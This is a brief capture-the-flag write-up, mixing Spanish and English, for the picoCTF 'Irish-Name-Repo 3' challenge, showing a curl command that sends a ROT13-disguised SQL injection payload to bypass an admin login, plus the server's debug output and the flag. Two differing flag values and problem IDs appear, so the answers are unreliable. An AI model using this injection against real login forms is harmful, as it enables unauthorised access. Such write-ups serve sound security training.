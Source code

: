 # Irish-Name-Repo 3

## Descripción
There is a secure website running at `https://jupiter.challenges.picoctf.org/problem/29132/` ([link](https://jupiter.challenges.picoctf.org/problem/29132/)) or http://jupiter.challenges.picoctf.org:29132. Try to see if you can login as admin!

## Pistas

Seems like the password is encrypted.

## Solución

```
# Logged in!

Your flag is: picoCTF{3v3n_m0r3_SQL_4424e7af}

___________________________________________________________________________________

┌──(kali㉿kali)-[~]
└─$ curl -s https://jupiter.challenges.picoctf.org/problem/40742/login.php -d "password=' be 1=1;&debug=1"
<pre>password: ' be 1=1;
SQL query: SELECT * FROM admin where password = '' or 1=1;'
</pre><h1>Logged in!</h1><p>Your flag is: picoCTF{3v3n_m0r3_SQL_4954i7ag}</p> 
```

## Bandera

picoCTF{3v3n_m0r3_SQL_4954i7ag}

## Notas adicionales



## Referencias
- https://jupiter.challenges.picoctf.org/problem/29132/
- http://jupiter.challenges.picoctf.org:29132